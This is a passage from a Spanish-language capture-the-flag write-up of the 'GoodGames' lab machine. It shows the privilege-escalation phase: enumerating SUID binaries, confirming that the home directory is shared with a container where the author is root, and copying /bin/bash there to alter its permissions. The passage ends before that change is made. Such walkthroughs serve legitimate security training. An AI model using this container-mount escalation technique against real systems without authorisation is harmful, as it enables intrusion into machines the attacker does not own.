 Veamos si hay algún binario con **permisos SUID** que podamos usar:
```bash
augustus@GoodGames:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/su
```
Ninguno útil.

Como ahorita estamos en el **home** y sabemos que se hizo una montura de este directorio, quizá lo que pongamos aquí, se vea reflejado en el contenedor.

Probémoslo:
```bash
augustus@GoodGames:~$ pwd
/home/augustus
augustus@GoodGames:~$ echo "Hola, me puedes ver?" > test.txt
augustus@GoodGames:~$ ls
test.txt  user.txt
```
Creamos un archivo de texto.

Nos salimos para estar en el contenedor y vemos si podemos ver el archivo de texto:
```bash
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# ls
test.txt  user.txt
root@3a453ab39d3d:/home/augustus# cat test.txt
Hola, me puedes ver?
```
Sí lo podemos ver.

Recuerda que en el contenedor somos **Root**, por lo que todo lo que metamos ahí, podemos modificarlo a gusto propio.

Veamos los permisos de la **Bash**
```bash
augustus@GoodGames:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Aug  4  2021 /bin/bash
```
Solo el **Root** puede usarlo.

Vamos a copiar el **binario Bash** en el **home** para que podamos modificarlo dentro del contenedor:
```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls -la
total 1236
drwxr-xr-x 2 augustus augustus    4096 Oct 15 00:09 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwxr-xr-x 1 augustus augustus 1234376 Oct 15 00:09 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r--r-- 1 augustus augustus      21 Oct 15 00:03 test.txt
-rw-r----- 1 root     augustus      33 Oct 14 19:38 user.txt
```
